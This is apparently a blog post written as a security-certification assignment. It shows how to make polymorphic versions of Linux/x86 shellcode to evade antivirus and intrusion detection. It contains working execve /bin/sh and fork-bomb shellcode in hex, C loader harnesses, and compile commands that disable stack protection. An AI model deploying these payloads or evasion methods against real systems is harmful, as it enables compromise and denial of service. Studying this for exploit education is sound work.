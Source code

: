 Introduction
------------
Polymorphism is a technique used to mutate code in a way that will keep the original functionality intact. For example, `1+1` and `4-2` both achieve the same result while using different values and operations. Polymorphic shellcode can aid in efforts to evade Anti-virus and IDS/IPS. This post will look at few shellcodes and how to produce polymorphic version of them.

Shellcode I
-----------
The first shellcode we’re going to work with is [execve()](http://shell-storm.org/shellcode/files/shellcode-827.php), which basically spawn shell for us.

```nasm
    *****************************************************
    *    Linux/x86 execve /bin/sh shellcode 23 bytes    *
    *****************************************************
    *	  	  Author: Hamza Megahed		        *
    *****************************************************
    *             Twitter: @Hamza_Mega                  *
    *****************************************************
    *     blog: hamza-mega[dot]blogspot[dot]com         *
    *****************************************************
    *   E-mail: hamza[dot]megahed[at]gmail[dot]com      *
    *****************************************************

xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

********************************
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```

Will mutate code and use the comments section to explain the process.

![](/assets/images/Polymorphic_shellcode_linux_x86/Execve.png)

Compile and test.

```sh
falafel@ubuntu:~/Desktop/Execve$ nasm -f elf32 -o Execve.o Execve.nasm
falafel@ubuntu:~/Desktop/Execve$ objdump -d ./Execve.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xc9\xeb\x05\x5b\x04\x0b\xcd\x80\xe8\xf6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"
falafel@ubuntu:~/Desktop/Execve$ cat Execve.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xc9\xeb\x05\x5b\x04\x0b\xcd\x80\xe8\xf6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
falafel@ubuntu:~/Desktop/Execve$ gcc -fno-stack-protector -z execstack Execve.c -o Execve
falafel@ubuntu:~/Desktop/Execve$ ./Execve 
Shellcode Length:  24
$ whoami
falafel
$
```

Shellcode II
------------
The second shellcode we’re going to mangle is [exit()](http://shell-storm.org/shellcode/files/shellcode-55.php), this one execute exit function with status code of 1.

```nasm
/* exit-core.c by Charles Stevenson < core@bokeoa.com >  
 *
 * I made this as a chunk you can paste in to make modular remote
 * exploits.  I use it when I need a process to exit cleanly.
 */
char hellcode[] = /*  _exit(1); linux/x86 by core */
// 7 bytes _exit(1) ... 'cause we're nice >:) by core
"\x31\xc0"              // xor  %eax,%eax
"\x40"                  // inc  %eax
"\x89\xc3"              // mov  %eax,%ebx
"\xcd\x80"              // int  $0x80
;

int main(void)
{
  void (*shell)() = (void *)&hellcode;
  printf("%d byte _exit(1); linux/x86 by core\n",
         strlen(hellcode));
  shell();
  return 0;
}
```

Mutate code and use the comments section to explain the process.

![](/assets/images/Polymorphic_shellcode_linux_x86/Exit.png)

Compile and test.

```sh
falafel@ubuntu:~/Desktop/Exit$ nasm -f elf32 -o Exit.o Exit.nasm
falafel@ubuntu:~/Desktop/Exit$ objdump -d ./Exit.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x6a\x02\x58\x48\x89\xc3\xcd\x80"
falafel@ubuntu:~/Desktop/Exit$ cat Exit.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x6a\x02\x58\x48\x89\xc3\xcd\x80";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
falafel@ubuntu:~/Desktop/Exit$ gcc -fno-stack-protector -z execstack Exit.c -o Exit
falafel@ubuntu:~/Desktop/Exit$ ./Exit 
Shellcode Length:  8
falafel@ubuntu:~/Desktop/Exit$
```

Shellcode III
-------------
The third and last shellcode we’re going to deal with is [fork()](http://shell-storm.org/shellcode/files/shellcode-214.php), this one will enter fork loop otherwise known as forkbomb until system crashes.

```nasm
/* By Kris Katterjohn 8/29/2006
 *
 * 7 byte shellcode for a forkbomb
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *      push byte 2
 *      pop eax
 *      int 0x80
 *      jmp short _start
 */

main()
{
       char shellcode[] = "\x6a\x02\x58\xcd\x80\xeb\xf9";

       (*(void (*)()) shellcode)();
}
```

Mutate code and use the comments section to explain the process.

![](/assets/images/Polymorphic_shellcode_linux_x86/Fork.png)

Compile it.

```sh
falafel@ubuntu:~/Desktop/Fork$ nasm -f elf32 -o ForkBomb.o ForkBomb.nasm
falafel@ubuntu:~/Desktop/Fork$ objdump -d ./ForkBomb.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x83\xc0\x02\xcd\x80\xeb\xf7"
falafel@ubuntu:~/Desktop/Fork$ cat ForkBomb.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x83\xc0\x02\xcd\x80\xeb\xf7";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
falafel@ubuntu:~/Desktop/Fork$ gcc -fno-stack-protector -z execstack ForkBomb.c -o ForkBomb
falafel@ubuntu:~/Desktop/Fork$
```

Obviously we’re not going to test this one unless we want to crash the system :D.

Closing Thoughts
----------------
I chose rather simple shellcode examples so we can focus on the basics really, hopefully you learned something from this post and feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%206](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%206)
